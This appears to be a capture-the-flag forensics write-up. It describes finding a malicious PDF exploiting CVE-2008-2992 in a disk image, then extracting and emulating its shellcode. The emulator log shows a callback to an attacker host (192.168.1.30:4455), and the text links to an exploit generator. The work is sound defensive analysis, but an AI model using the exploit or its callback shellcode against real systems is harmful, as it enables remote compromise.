

# Policy Violation
We are given an Image. From previous challenges I knew, that files with a .E01 extension are supposed to be opened with [Autopsy](https://www.autopsy.com/).

## Pt. 1

The first part of the challenge is to find the exploit file and the Number & Date of its CVE.<br/>
At first sight I can see that there are 3 files in the recycle bin. 


Lets export it and upload it to [virustotal](https://www.virustotal.com/).
Success! Somebody (probably the challenge author or some kind of bot) has posted a comment with the CVE number to the [report](https://www.virustotal.com/gui/file/a1427cea9075350a8f60839c9244c8470c4c5ee996257f34d6195243b91e8c3d)

`CVE-2008-2992`

Now that we know the CVE and that it is relatively safe to handle the file as the exploit is long fixed, we can move on to the next message.

## Pt. 2

For this part, we need to find out the Attackers IP. As there is no connection info in the Autopsy report, I eventually realized, that the pdf itself must contain the attacker IP to send something back to him.<br/>
I found this [file](https://github.com/mobmewireless/origami-pdf/blob/master/samples/exploits/cve-2008-2992-utilprintf.rb) that was used to create the pdf but I was not able to find out how to extract the shellcode out of it at first sight. Then I searched a little more and found this [website](https://www.adlice.com/infected-pdf-extract-payload/).
<br/>
Before using that one, I first wanted to try to do it with https://github.com/PCsXcetra/DerbyCon-2019Files which did not work...

To finally solve the challenge, I installed [PDFStreamDumper](http://sandsprite.com/blogs/index.php?pid=57&uid=7), highlighted the shellcode inside of the pdf (one of the objects at the left):



And then opened the Javascript UI to analyze the shellcode:


I ran it and got the IP as the output!

```
Loaded 400 bytes from file sample.sc
Initialization Complete..
Max Steps: 2000000
Using base offset: 0x401000

401348  LoadLibraryA(ws2_32)
401358  WSAStartup(190)
401375  WSASocket(af=2, tp=1, proto=0, group=0, flags=0)
401381  connect(h=42, host: 192.168.1.30 , port: 4455 ) = 71ab4a07
401381  connect(h=42, host: 192.168.1.30 , port: 4455 ) = 71ab4a07
401381  connect(h=42, host: 192.168.1.30 , port: 4455 ) = 71ab4a07
401381  connect(h=42, host: 192.168.1.30 , port: 4455 ) = 71ab4a07

Stepcount 2000001
```

Solved!